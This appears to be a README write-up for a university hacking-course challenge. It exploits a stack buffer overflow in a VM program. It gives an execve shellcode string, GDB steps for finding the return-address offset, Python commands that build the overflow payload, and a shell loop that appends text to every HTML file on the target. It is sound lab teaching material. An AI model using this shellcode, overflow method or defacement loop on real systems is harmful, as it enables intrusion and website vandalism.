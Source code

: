 # NU CHALLENGE (INF473X The Hacking Xperience)

## Run commands

Run `./hack_terminal` to open a fake terminal of the VM. Then, type `cd ; for i in $(find . -name *.html); do echo '<p>YOUR NAME</p>' >>  $i; done` to add `YOUR NAME` at the bottom of the HTML page.


## Explanations
The vulnerability used is a buffer overflow. When the VM asks for a name, the user simply gives it a too long name to the point where the return address at the end of function `parse` is overwritten. This return address is then modified to point toward the beginning of the buffer (that stores the user's input) and execute malicious instructions in it. Here, the malicious instructions are launching a shell and modify all HTML files as done in the Mu challenge.

The shellcode used is `\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05` (ref [here](https://shell-storm.org/shellcode/files/shellcode-806.php). The rest of the memory is filled by the no-operation instruction `\x90` to reach the return address.

## GDB Tests

### Proof of overwrite

Let's use GDB (a debugger tool) to better understand what's happening in the stack memory. We'll be using the c program _test_gdb.c_ which is a simplified version of the source code of the application. Once it is compiled with the command `gcc -m32 -fno-stack-protector -z execstack test_gdb.c -o test_gdb`, we can run gdb using `gdb test_gdb`.

First of all, let's try to run the program and feed it a too long name with the command `r < attack.txt` (_attack.txt_ contains a 200-long string of letters 'A' and can be generated with Python `python3 -c 'print("A"*200)' > attack.txt`). Gdb replies a segmentation fault :
```
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```
`0x41414141` is supposed to be the return pointer and is now not recognised. Moreover, 41 turns out to be the hexadecimal code for the letter 'A' which isn't a coincidence. Indeed, the return pointer was overwritten by the user's input as the latter entered a too long name.

### Exploitation

Let's dig deeper and try to count the exact number of letters 'A' needed to overwrite the return pointer with the sequence one wants. This count is simply the distance between the return pointer and _greeting_text_ + 12 (the 12 first characters are already written : _"Hello, dear "_). To find the return pointer's position in the stack, I put a break at the beginning (at the `push` level) of the function `parse` with the command `b *0x########` (in my case `b *0x56556231` and can be access when `parse` is disassembled  : `disas parse`). When running the program, it stops at this break and at this moment the stack pointer is the return pointer. So the return pointer's position can be access with :
```
gdb-peda$ x/xw $sp
0xffffcf1c:	  0x565562d6
```
Now, all that remains is to find _greeting_text_'s position in the memory. The function `strcat` takes two arguments one of which is our interest variable. I put another break at the level of `strcat`, run the program until this second break and display the two arguments of `strcat` (`dumpargs` works only with GDB Peda) :
```
gdb-peda$ dumpargs
Guessed arguments:
arg[0]: 0xffffce90 ("Hello, dear ")
arg[1]: 0xffffcd90 ('A' <repeats 200 times>...)
```
The distance between the return pointer and _greeting_text_ can be calculated as such :
```
gdb-peda$ p/d 0xffffcf1c - 0xffffce90
$2 = 140
```

Let's verify this count by generating a new _attack.txt_ : `python3 -c 'print("A"*128 + "BBAB") ' > attack.txt`. Go back to gdb and run the program `r < attack.txt` :
```
Stopped reason: SIGSEGV
0x42414242 in ?? ()
```
We still get a segmentation fault but this time, the return pointer has been successfully modified to `42414242` which corresponds to the hexadecimal code of "BBAB".

### Structure of the stack memory
```
| ############## BUFFER ############### | ###### GREETING_TEXT ###### | # SOMETHING # | # RETURN ADDRESS # |
|                 256                   |             128             |       12      |         4          |
```
